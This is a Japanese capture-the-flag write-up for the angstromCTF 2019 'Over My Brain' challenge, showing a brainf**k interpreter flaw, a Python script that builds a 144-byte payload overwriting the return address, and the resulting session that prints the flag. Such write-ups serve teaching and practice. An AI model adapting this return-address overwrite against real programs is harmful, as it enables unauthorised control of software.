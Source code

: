 # [pwn 150pts] Over My Brain - angstromCTF 2019
64bitでDEP以外無効です。
```
$ checksec over_my_brain
[*] 'over_my_brain'
    Arch:	64 bits (little endian)
    NX:		NX enabled
    SSP:	SSP disabled (No canary found)
    RELRO:	Partial RELRO
    PIE:	PIE disabled
```

brainf\*\*kのインタブリタです。
ローカル変数でメモリを管理しているのですが、この変数の範囲を超えて読み書きできます。
また、いつもどおりflag関数があるので、リターンアドレスをflagのアドレスに変えましょう。
ただし、送れるコードは144文字までなので、それ以内に収める必要があります。
リターンアドレスは結構先にあるので、大きくジャンプしなければなりません。
幸いにもインタプリタ用のメモリは0で初期化されているので、次のコードで大幅にジャンプできます。
```
+[>+]
```
やっていることは、今いる番地をインクリメントし、0でなければ次へ進んでインクリメントする、という処理の繰り返しです。
したがって、0xffが来るまではひたすらポインタが進みます。
あとは`[-]`でメモリを0に初期化できるので、リターンアドレスを書き換えます。

いろいろ工夫したら次のコードで144バイト以内に収まりました。

```python
addr_flag = 0x4011c6

def craft_write(c):
    b = int(c ** 0.5)
    payload = "+" * (c - b * b) + ">"
    payload += "[-]" + "+" * b
    payload += "[<" + "+" * b + ">-]"
    return payload

# jump to ret addr
payload = "+[>+]" + ">" * 0x28
# reset
payload += "[-]"
payload += craft_write((addr_flag >> 0) & 0xFF)
payload += craft_write((addr_flag >> 8) & 0xFF)
payload += craft_write((addr_flag >> 16) & 0xFF)
payload += ">[-]>[-]"

print(len(payload))

print(payload)
```

```
+[>+]>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>[-]++>[-]++++++++++++++[<++++++++++++++>-]+>[-]++++[<++++>-]>[-]++++++++[<++++++++>-]>[-]>[-]
```

```
$ nc shell.actf.co 19010
enter some brainf code: +[>+]>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>[-]++>[-]++++++++++++++[<++++++++++++++>-]+>[-]++++[<++++>-]>[-]++++++++[<++++++++>-]>[-]>[-]
actf{whoooooooooooooooooooosh}
Segmentation fault (core dumped)
```

# 感想
ひさしぶりにbrainf\*\*kして面白かったです。
